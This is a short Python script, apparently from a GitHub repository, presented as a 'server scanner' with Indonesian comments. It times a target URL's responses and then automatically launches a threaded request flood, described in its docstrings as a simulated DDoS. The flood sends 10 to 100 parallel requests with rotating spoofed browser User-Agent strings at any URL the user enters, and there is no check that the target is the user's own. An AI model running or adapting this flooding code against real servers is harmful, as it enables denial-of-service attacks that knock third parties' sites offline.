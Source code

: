 # server-scanner-
import requests
import time
import threading
import random

def ping_server(target_url):
    """Fungsi untuk mengukur waktu respons server"""
    try:
        start_time = time.time()
        response = requests.get(target_url)
        response_time = time.time() - start_time
        return response_time
    except requests.exceptions.RequestException as e:
        print(f"Error: {e}")
        return None

def test_server_capacity(target_url, num_requests=100):
    """Tes seberapa banyak permintaan yang dapat ditangani server"""
    start_time = time.time()
    for _ in range(num_requests):
        requests.get(target_url)
    end_time = time.time()
    total_time = end_time - start_time
    return total_time / num_requests

def send_request(target_url):
    """Fungsi untuk mengirim request palsu (simulasi DDoS)"""
    headers = {
        'User-Agent': random.choice([
            'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
            'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0',
            'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
        ])
    }
    try:
        response = requests.get(target_url, headers=headers)
        print(f"Request sent to {target_url}: {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"Error: {e}")

def attack_server(target_url, num_requests):
    """Mengirim serangan DDoS simulasi dengan mengirim banyak request secara paralel"""
    threads = []
    for _ in range(num_requests):
        thread = threading.Thread(target=send_request, args=(target_url,))
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

def scan_server(target_url):
    """Memindai kekuatan server berdasarkan latensi dan kapasitas"""
    print(f"Memindai server: {target_url}")

    response_time = ping_server(target_url)
    if response_time is None:
        print("Server tidak dapat dijangkau")
        return

    print(f"Waktu respons: {response_time:.4f} detik")

    if response_time < 1:
        print("Server Kuat")
    elif response_time < 2:
        print("Server Sedang")
    else:
        print("Server Lemah")

    avg_request_time = test_server_capacity(target_url)
    print(f"Rata-rata waktu untuk setiap permintaan: {avg_request_time:.4f} detik")

    if avg_request_time < 0.1:
        print("Server Kuat")
        attack_server(target_url, num_requests=10)
    elif avg_request_time < 0.5:
        print("Server Sedang")
        attack_server(target_url, num_requests=50)
    else:
        print("Server Lemah")
        attack_server(target_url, num_requests=100)

if __name__ == "__main__":
    target_url = input("Masukkan URL target untuk dipindai (contoh: https://example.com): ").strip()
    scan_server(target_url)
